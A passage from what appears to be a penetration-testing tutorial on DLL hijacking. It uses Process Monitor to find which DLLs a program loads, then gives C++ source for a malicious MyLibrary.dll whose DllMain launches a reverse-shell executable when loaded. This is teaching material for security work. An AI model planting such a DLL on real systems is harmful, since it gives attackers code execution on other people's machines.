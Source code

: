 Any of these will probably work, but `MyLibrary.dll` seems custom and most likely, so we'll focus on that. To find out what libraries are actually loaded we can dynamically analyze it by running it locally and attaching [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon), then looking for _CreateFile_ events with `.dll` extensions:

<figure><img src="../.gitbook/assets/image (45).png" alt="" width="520"><figcaption></figcaption></figure>

Now that we have found a potential place and name for a DLL that we can overwrite, we have to create a malicious DLL that runs what we want, like a reverse shell also stored on the system. We just need to define the special `DllMain()` function and handle the different cases:

<pre class="language-cpp" data-title="MyLibrary.dll"><code class="lang-cpp">#include &#x3C;stdlib.h>
#include &#x3C;stdlib.h>
#include &#x3C;windows.h>

BOOL APIENTRY DllMain(
    HANDLE hModule,           // Handle to DLL module
    DWORD ul_reason_for_call, // Reason for calling function
    LPVOID lpReserved)        // Reserved
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH: // A process is loading the DLL.
<strong>        system("C:\\Windows\\Tasks\\shell.exe");
</strong>        break;
    case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
    case DLL_THREAD_DETACH: // A thread exits normally.
        break;
    case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
</code></pre>